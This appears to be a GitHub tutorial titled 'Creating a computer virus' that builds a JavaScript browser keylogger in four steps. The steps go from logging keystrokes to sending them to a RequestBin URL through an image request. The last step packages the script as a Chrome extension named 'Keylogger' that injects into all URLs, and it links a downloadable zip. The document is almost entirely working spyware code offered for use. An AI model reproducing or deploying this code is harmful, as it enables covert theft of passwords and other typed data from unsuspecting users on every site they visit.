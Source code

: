 # Creating a computer virus 

Welcome to creating a simple virus 

## Step 1

Lets print


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        console.log(keys);
    }
    keys = '';
}, 10000);
```

## Step 2

Lets do something fun

```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        alert(keys);
    }
    keys = '';
}, 10000);
```


## Step 3

Lets take things to the next level

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 


```
var keys = '';
document.onkeypress = function (e) {
    get = window.event ? event : e;
    key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
window.setInterval(function () {
    if (keys.length > 0){
        new Image().src = 'http://{request bin url}?keys=' + keys;
    }
    keys = '';
}, 10000);
```


## Step 4

Lets make it even more cooler

/content.js 
```
{
  "manifest_version": 2,
  "name": "Keylogger",
  "version": "0.1",

  "content_scripts": [
    {
      "matches": [
        "<all_urls>"
      ],
      "js": ["content.js"]
    }
  ]
}
```
### Click [here](https://github.com/EXTREMOPHILARUM/virus/releases/download/0.1/extension.zip) to download zip.
